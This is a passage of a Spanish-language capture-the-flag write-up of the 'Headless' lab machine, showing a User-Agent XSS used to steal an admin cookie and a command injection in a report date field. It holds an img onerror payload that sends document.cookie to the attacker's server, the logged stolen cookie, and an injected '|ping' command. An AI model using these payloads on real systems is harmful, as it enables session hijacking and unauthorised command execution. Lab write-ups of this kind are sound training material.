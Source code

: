 ```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.8 - - [20/Jul/2024 12:03:49] code 404, message File not found
10.10.11.8 - - [20/Jul/2024 12:03:49] "GET /asd HTTP/1.1" 404 -
```

Definitivamente, ¡Eso se ve vulnerable a XSS! Ahora, la mejor parte de esto es que si vemos las Cookies, hay una que se llama `is_admin` y no es de tipo `HttpOnly`, por lo que podemos hacer que quien esté viendo la página de reportes nos mande su cookie en la petición HTTP y así usarla nosotros. Colocando lo siguiente en el User-Agent para ejecutar un `fetch` con las cookies del navegador en el path de la URL bastará para recibirla:

```html
<img src="x" onerror="fetch(`http://<your-ip>:8000/${document.cookie}`)">
```

```bash
❯ python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.8 - - [20/Jul/2024 12:08:55] code 404, message File not found
10.10.11.8 - - [20/Jul/2024 12:08:55] "GET /is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0 HTTP/1.1" 404 -
```

Colocándola en nuestro navegador (Abriendo las herramientas de desarrollador, yendo a almacenamiento y en la sección de cookies verás donde agregarlas), no hará que nada pase al recargar la página, pero si vamos a un sitio que podemos creer que existe como `/dashboard`, tendremos acceso sin problema alguno:

![Dashboard](/assets/writeups/headless/3.png)

Ahora tenemos una parte para generar reportes de la estabilidad del servidor, dándole al botón nos lo generará y podremos ver que simplemente nos dice que todo está correcto, pero si le metemos símbolos extraños ahora no dirá nada, probemos a ver si se ejecuta algún comando metiéndole una cadena al campo como `2023-09-15|ping -c 1 10.10.14.95`

Al ejecutar nuestro sniffer de red en busca de pings ICMP por parte de la máquina, recibiremos un ping al intentar generar el reporte con el nuevo dato de arriba:

```bash
❯ tshark -i tun0 icmp
Capturing on 'tun0'
    1 0.000000000   10.10.11.8 → 10.10.14.95  ICMP 84 Echo (ping) request  id=0x17fc, seq=1/256, ttl=63
    2 0.000074884  10.10.14.95 → 10.10.11.8   ICMP 84 Echo (ping) reply    id=0x17fc, seq=1/256, ttl=64 (request in 1)
```
